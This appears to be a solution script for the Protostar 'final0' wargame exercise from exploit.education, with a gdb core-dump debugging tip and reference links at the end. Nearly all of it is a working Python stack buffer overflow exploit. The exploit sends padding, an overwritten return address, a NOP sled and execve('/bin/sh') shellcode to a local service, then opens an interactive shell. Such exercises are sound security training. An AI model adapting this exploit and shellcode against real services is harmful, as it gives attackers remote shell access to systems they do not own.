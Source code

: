 import socket
import struct
import time
import telnetlib

HOST="127.0.0.1"
PORT=2995

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

eip = struct.pack("I", 0xbffffc60+10)
nopsled = "\x90" * 100
exploit     = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload = "A" * 512 + "\x00"  + "bbbccccddddeeeeffff" + eip + nopsled + "gggghhhhh" + exploit
s.send(payload + "\n") # "\n" indicates that transmission is over if not server is still waiting for more stuff
#s.send("id")
#data = s.recv(2048) # end every payload you send with "\n" if not you will not receive anything and the function will be stuck here as it is waiting for the server to respond while the server is waiting for the end of the transmission most likely indicated by "\n"
#print "Received: ", data

t = telnetlib.Telnet()
t.sock = s
t.interact()

debug using `gdb /opt/protostar/bin/final0 /tmp/CORE_DUMP_FILE`

https://wiki.archlinux.org/title/Core_dump

https://exploit.education/protostar/

